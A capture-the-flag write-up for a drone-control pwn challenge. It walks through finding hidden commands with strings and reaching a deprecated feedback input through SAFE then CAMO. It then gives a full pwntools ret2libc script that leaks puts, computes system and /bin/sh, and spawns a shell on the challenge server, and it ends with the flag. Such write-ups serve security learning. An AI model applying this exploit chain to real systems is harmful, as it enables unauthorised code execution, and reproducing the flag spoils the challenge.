 ### Intro
This challenge is a text-based adventure where the user inputs commands to control a drone. While most of these commands have input checks, a sequence of commands will allow the user to access a "deprecated" input feature. This input can be exploited to achieve a buffer overflow, conduct a Return to Libc (Ret2Libc) attack, and execute a shell.

### Finding Commands
The `drone.bin` binary does not give any indication of what the valid commands are, but they can be discovered using `strings`. This also reveals command parameters as well as some indication of what the commands do.
```
<<< Performing %s scan...
Sonar
Radar
Depth
Enter command verb >>> 
Enter command params >>> 
<<< Collecting a sample of %d grams...
<<< Moving %c for %d meters...
<<< Moving arm to position %d..., Current Setting: %d
<<< Entering Diagnostic Mode, arm increased by more than 10.
Please leave your spacesec contact so we can replicate the fault >>> 
<<< Turning the rover by %.2f degrees...
<<< Did not get reason for stopping
Enter reason for stopping >>> 
<<< Rover stopped due to: %s
<<< Recording video for %d seconds...
Disengaging
Engaging
<<< %s the brakes...
<<< Error saving file.
<<< Saved file: %s
Enter filename for the recording >>> 
<<< Warning, did you mean to save with %s extension
Temperature
Humidity
<<< Activating %s sensor...
Pressure
<<< Bug report submitted.
<<< Setting safety mode to %s...
Disabled
Enabled
Leave feedback comments for the developers >>> 
<<< Feedback only available in unSAFE state
<<< Warning: uppercase letters not permitted on SIGN
Re-enter message >>> 
Char[%i]: %c
<<< Displaying message on sign: %s
<<< Setting light intensity to level %c...
<<< %s the claw...
Closing
Opening
Enter resolution (e.g., 720, 1080) >>> 
<<< Camera mode set to %c with resolution %d...
MOVE
BRKS
SCAN
Enter terrain type (e.g., rocky, sandy) >>> 
<<< Moving over %s terrain...
RECD
<<< Invalid sensor type for SENS. Must be 'T', 'H', or 'P'.
<<< Invalid duration for RECD. Must be between 1 and 300 seconds.
LIGH
<<< Turning %c by %.2f degrees...
ARMX
<<< Invalid frequency for TRNS. Must be between 1.0 and 100.0 MHz.
<<< Invalid module for DEPL. Must be 'A', 'B', 'C', or 'D'.
<<< Invalid value for CLAW. Must be 'O' (Open) or 'C' (Close).
<<< Sample size must be an integer not float.
<<< Submitting bug report, attempting to continue
<<< Invalid sample size for SAMP. Must be between 1 and 500 grams.
SIGN
<<< Invalid position for ARMX. Input must be between 1 and 10.
TRNS
<<< Invalid scan type for SCAN. Must be 'R', 'S', or 'D'.
<<< Invalid state for SAFE. Must be 'Y' (Yes) or 'N' (No).
CAMO
<<< Both open and close not permitted simultaneously
Submit bug report (Y|N) >>> 
STOP
<<< Invalid parameters for MOVE. Direction must be 'F' or 'B', and distance must be between 1 and 1000 meters.
Enter light mode (e.g., steady, blinking) >>> 
<<< Light set to %s mode at intensity level %c...
<<< Multi-Mode camera no longer supported, leave feedback if your team needs it.
SAFE
<<< Unknown command: %s
<<< Invalid value for BRKS. You entered %s Must be 'E' (Engage) or 'D' (Disengage).
<<< Submitting bug report
SAMP
<<< Invalid intensity for LIGH. Must be between '1' and '5'.
<<< Invalid mode for CAMO. Must be 'N', 'I', or 'T'.
SENS
<<< Invalid angle for TURN. Must be between -180 and 180 degrees.
DEPL
Enter turn direction (L for left, R for right) >>> 
TURN
CLAW
```

### Decompilation and Analysis
There is no symbol for `main`, but an entry point can be found using Ghidra, which leads to this function which handles command input:
![[drone_commands.png]]

Only a segment of this function is shown, but the function generally compares user input to a command code (MOVE, STOP, SCAN, etc) and executes code corresponding to that command, which usually involves printing out some flavor text.

Most of the commands are unimportant, but the code for CAMO includes a call to a `deprecated_feedback` function, which is of interest:
![[drone_camo.png]]

`deprecated_feedback`:
![[drone_deprecated.png]]

This function has a `read` call to a buffer - a good target for buffer overflow. However, the "drone"/program must be in unSAFE mode.

Therefore, the correct command sequence is SAFE to turn off safe mode, and then CAMO to access the unsafe feedback input.
![[drone_setup.png]]

### Buffer Overflow + Ret2Libc
The idea is to use Libc to execute a shell using the Libc function `system` and its `/bin/sh` string. To get a Libc address, overflow the buffer to pass the address of `puts` GOT entry to `puts` itself, which prints out the runtime address of `puts`.

Since this involves "calling" `puts`, ROP gadgets can be used to set the values of register rdi to properly pass the GOT entry as an argument into `puts`.

First Buffer Overflow:
```
input_buf: padding (pppppppp)
...
input_buf+0x108:  rdi gadget
input_buf+0x110: puts GOT entry address
input_buf+0x118: puts PLT entry address (will call puts)
input_buf+0x120: deprecated_feedback (to setup up a second buffer overflow)
```

After the runtime address of `puts` is calculated, the addresses of `system` and `/bin/sh` can easily be calculated using known Libc offsets from `puts`. Use ROP gadgets to set up a second buffer overflow to execute a shell.

Second Buffer Overflow:
```
input_buf: padding (pppppppp)
...
input_buf+0x108:  rdi gadget
input_buf+0x110: /bin/sh address
input_buf+0x118: ret gadget (for stack alignment)
input_buf+0x120: system() address
```

Overall Script:
```
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']

libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
elf = ELF('./drone.bin')
func = p64(elf.symbols['deprecated_feedback'])
rop = ROP(elf)
pop_rdi = p64(rop.rdi.address)
pop_rdx = p64(rop.rdx.address)
ret_gadget = p64(rop.ret.address)
read_got = p64(elf.got['read'])
atoi_got = p64(elf.got['printf'])
padding = b'p' * 264

p = remote('2024.sunshinectf.games', 24004)
puts_got = p64(elf.got['puts'])
puts_plt = p64(elf.plt['puts'])
# setup
p.recvuntil(b'>>> ')
p.sendline(b'SAFE')
p.recvuntil(b'>>> ')
p.sendline(b'N')
p.recvuntil(b'>>> ')
p.sendline(b'CAMO')
p.recvuntil(b'>>> ')
p.sendline(b'N')
p.recvuntil(b'>>> ')
# first pass
payload = b''.join([padding, pop_rdi, puts_got, puts_plt, func])
p.sendline(payload)
leaked = p.recvline()[:6]
puts_addr = u64(b''.join([leaked, b'\x00\x00']))
#print(hex(puts_addr))
# second pass
system_addr = p64(puts_addr - 0x87bd0 + 0x58740) # use libc addrs
binsh_addr = p64(next(elf.search(b'/bin/sh\0')))
payload = b''.join([padding, pop_rdi, binsh_addr, ret_gadget, system_addr])
p.recvuntil(b'>>> ')
p.sendline(payload)
p.interactive()
```

Launching the exploit:
![[drone_win.png]]

### Flag
sun{drone_Pilot3d_rhrough_th3_cloud5}